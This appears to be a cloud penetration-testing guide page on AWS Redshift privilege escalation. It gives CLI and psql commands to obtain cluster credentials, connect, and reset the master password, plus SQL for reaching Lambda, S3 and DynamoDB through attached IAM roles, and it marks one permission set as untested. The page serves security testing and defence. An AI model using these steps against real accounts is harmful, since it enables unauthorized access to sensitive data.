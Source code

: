 # AWS - Redshift Privesc

## Redshift

For more information about RDS check:

[[../aws-services/aws-redshift-enum.md]]

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

With these permissions you can get **info of all the clusters** (including name and cluster username) and **get credentials** to access it:

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**Potential Impact:** Find sensitive info inside the databases.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

With these permissions you can get **info of all the clusters** and **get credentials** to access it.\
Note that the postgres user will have the **permissions that the IAM identity** used to get the credentials has.

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**Potential Impact:** Find sensitive info inside the databases.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

It's possible to **modify the master password** of the internal postgres (redshit) user from aws cli (I think those are the permissions you need but I haven't tested them yet):

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**Potential Impact:** Find sensitive info inside the databases.

## Accessing External Services

> [!WARNING]
> To access all the following resources, you will need to **specify the role to use**. A Redshift cluster **can have assigned a list of AWS roles** that you can use **if you know the ARN** or you can just set "**default**" to use the default one assigned.

> Moreover, as [**explained here**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift also allows to concat roles (as long as the first one can assume the second one) to get further access but just **separating** them with a **comma**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`

### Lambdas

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html), it's possible to **call a lambda function from redshift** with something like:

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```

### S3

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), it's possible to **read and write into S3 buckets**:

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```

### Dynamo

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html), it's possible to **get data from dynamodb**:

```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

> [!WARNING]
> The Amazon DynamoDB table that provides the data must be created in the same AWS Region as your cluster unless you use the [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) option to specify the AWS Region in which the Amazon DynamoDB table is located.

### EMR

Check [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

- [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

